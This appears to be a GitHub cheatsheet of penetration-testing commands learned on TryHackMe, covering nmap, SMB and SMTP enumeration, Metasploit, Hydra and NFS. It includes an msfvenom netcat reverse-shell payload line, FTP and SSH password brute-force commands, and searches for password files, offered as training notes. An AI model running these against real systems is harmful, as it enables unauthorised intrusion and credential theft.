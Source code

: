 # TryHackMe Cheatsheets and Write-ups

Some stuffs learned in war rooms from TryHackMe platform.

## VPN

```bash
# Install OpenVPN tool
sudo apt install openvpn

# Connect to a VPN
sudo openvpn your-vpn-file.ovp
```

## Steganography

```bash
# Install StegHide tool
sudo apt install steghide

# Hide a secret into a picture (pic.jpg will be replaced)
steghide embed -cf pic.jpg -ef secret.txt

# Display info about a file whether it has embedded secrets
steghide info pic.jpg

# Extract secret from a picture
steghide extract -sf pic.jpg
```

[Steganography - A list of useful tools and resourcesPermalink](https://0xrick.github.io/lists/stego/)

[Steghide Documentation](https://steghide.sourceforge.net/)

## Vulnerabilities and Exploits

```bash
# Download searchsploit tool
git clone https://gitlab.com/exploit-database/exploitdb.git
cd exploitdb && ./searchsploit -h

# Search for exploits samples
./searchsploit fuel cms
./searchsploit proftpd 1.3.5
```

[Exploit Database](https://www.exploit-db.com/)

[National Vulnerability Database](https://nvd.nist.gov/vuln/search)

[CVE Mitre](https://cve.mitre.org/)

## Find files on Linux

```bash
# Find by filename
find / -name passwords.txt

# Find by extension
find / -iname *.txt

# Fast way to find files
locate passwords.txt
```

## NMAP Basic

```bash
# Syn Scan
sudo nmap -sS my-host-name

# UDP Scan
sudo nmap -sU my-host-name

# TCP scan in all ports
sudo nmap -sT -p- my-host-name

# NULL, FIN and Xmas Scan
sudo nmap -sN my-host-name
sudo nmap -sF my-host-name
sudo nmap -sX my-host-name

# Scan without ping
sudo nmap -Pn my-host-nmae

# Ping sweep scan
sudo nmap -sn 192.168.0.-

# Verbose modes: -v, -vv or -vvv
sudo nmap -vv -p 8080 my-host-name

# Detect version of services
sudo nmap -sV my-host-name

# Try detect operating system
sudo nmap -O my-host-name

# Speed of scan -T0 (slow) to -T5 (fast)
sudo nmap -vv -p- -T5 my-host-name
```

## NMAP Scripts

```bash
# Search for Nmap scripts related to ftp
grep "ftp" /usr/share/nmap/scripts/script.db

# Scan with all scripts from vuln category
sudo nmap --script=vuln my-host-name
```

## SMB and SAMBA

```bash
# Download enum4linux tool
sudo apt install samba-common-bin smbclient ldap-utils polenum
git clone https://github.com/CiscoCXSecurity/enum4linux.git
cd enum4linux && ./enum4linux.pl

# Download enum4linux-ng tool
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng && ./enum4linux-ng.py

# Try get a user list from SMB
./enum4linux.pl -U my-host-name

# Try get a share list from SMD
./enum4linux.pl -S my-host-name

# Enumerate SMB/Samba
./enum4linux.pl -a my-host-name

# Access a public shared folder with smbclient (password: anonymous)
smbclient //some-host-name-or-ip/shared-folder -U anonymous -p 445
```

## Dumping network traffic

```bash
# Dumping ICMP packages from VPN interface
sudo tcpdump ip proto \\icmp -i tun0
```

## Metasploit Framework

```bash
# Install GPG key from Metaploit repository
sudo wget https://apt.metasploit.com/metasploit-framework.gpg.key \
-O /etc/apt/trusted.gpg.d/metasploit.asc

# Install Metaploit repository
echo "deb https://apt.metasploit.com xenial main" | \
sudo tee /etc/apt/sources.list.d/metasploit.list

# Install Metaploit framework
sudo apt update
sudo apt install metasploit-framework

# Generate payload for reverse shell using netcat for linux
msfvenom -p cmd/unix/reverse_netcat lhost=YOUR-IP lport=YOUR-PORT R

# Gather hostname, agent and OS from SMTP server
msfconsole
> use auxiliary/scanner/smtp/smtp_version
> options
> set RHOSTS your-target-ip
> exploit

# Try get administrator username from SMTP server
msfconsole
> use auxiliary/scanner/smtp/smtp_enum
> options
> set RHOSTS your-target-ip
> set USER_FILE /your/usernames/wordlist.txt
> exploit
```

## Hydra (Parallelized login cracker)

```bash
# Install hydra tool
sudo apt install hydra

# Cracking FTP service
hydra -t 4 -l USER -P wordlist.txt -vV TARGET-HOST ftp

# Cracking SSH service
hydra -t 16 -l USER -P wordlist.txt -vV TARGET-HOST ssh
```

## Wordlists

```bash
# Download rockyou wordlist
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# Download top-usernames-shortlist wordlist
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
```

[SecLists](https://github.com/danielmiessler/SecLists)

## NFS

```bash
# Install NFS dependencies
sudo apt install nfs-common

# Show available folders on host
showmount -e IP-OR-HOST

# Mount shared folder
sudo mount HOSTNAME:/SHARED-FOLDER /your/folder -nolock

# Check permissions of files
stat your-file
```